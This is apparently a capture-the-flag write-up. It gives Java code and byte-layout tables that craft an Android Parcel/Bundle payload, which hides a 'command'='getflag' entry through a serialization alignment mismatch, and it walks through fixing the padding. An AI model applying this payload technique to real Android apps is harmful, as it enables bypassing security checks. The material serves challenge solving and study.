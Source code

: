 ```java
        a.writeLong(0x11223344);
        // fake map
        // \7\0 => hide_len_key
        // command\0 => hide_content_key
        // \0\0 => hide_type_value
        // \7\0 => hide_len_value
        // getflag\0 => hide_content_value
        a.writeString("\7\0command\0\0\0\7\0getflag");
        a.writeInt(0);//fake_type
        a.writeString("");//fake_value
        a.writeString("command");//for bundle.getString("command")!=null
        a.writeInt(0);
        a.writeString("gotflag");
        int len = a.dataSize();
        b.writeInt(len);
        b.writeInt(0x4c444E42);
        b.appendFrom(a, 0, len);
        b.setDataPosition(0);

        byte[] raw = b.marshall();
        String output = Base64.encodeToString(raw, 0);
        Log.i("test", output);
```

### Other
I use this payload1 in match:
``` java
a.writeString("\7\0command\0\0\0\7\0getflag\0");
a.writeInt(0);//fake_type
a.writeString("1");//fake_value
```
But marshaling shows that fake_key contains 3 zero char after 'getflag'. It costs 6 bytes.
I search it and find that `writeString` method will put '\0' to the end of string, then pad size.

But if I remove the zero, `writeString("\7\0command\0\0\0\7\0getflag")`, the end zero will be at the end. It costs 44 bytes without padding.
The structure is 

|Message|len_key|content_key|type_value|len_value|content_value|len_key2|content_key2|type_value2|len_value2|content_value2|
|--|--|--|--|--|--|--|--|--|--|--|
|pad|15 00 00 00|07 00 00 00 "command" 00 00 00 00 00 00 07 00 00 00 "getflag" 00 00| 00 00 00 00|01 00 00 00| "1" | 07 00 00 00 | "command" | 00 00 00 00| 00 00 00 00 | null|
|pad 15 00 00 00|07 00 00 00| "command" 00 00|00 00 00 00|07 00 00 00|"getflag" 00 00 | 00 00 00 00 | 01 00 00 00 | "1" | 07 00 00 00 | "command"|

We can find the `type_value2` is error.
So we need to construct `fake_value1=""`.

|Message|len_key|content_key|type_value|len_value|content_value|len_key2|content_key2|type_value2|len_value2|content_value2|
|--|--|--|--|--|--|--|--|--|--|--|
|pad|15 00 00 00|07 00 00 00 "command" 00 00 00 00 00 00 07 00 00 00 "getflag" 00 00| 00 00 00 00|00 00 00 00| 00 00 00 00 | 07 00 00 00 | "command" | 00 00 00 00| 00 00 00 00 | null|
|pad 15 00 00 00|07 00 00 00| "command" 00 00|00 00 00 00|07 00 00 00|"getflag" 00 00 | 00 00 00 00 | 00 00 00 00 | 00 00 00 00 | 07 00 00 00 | "command"|
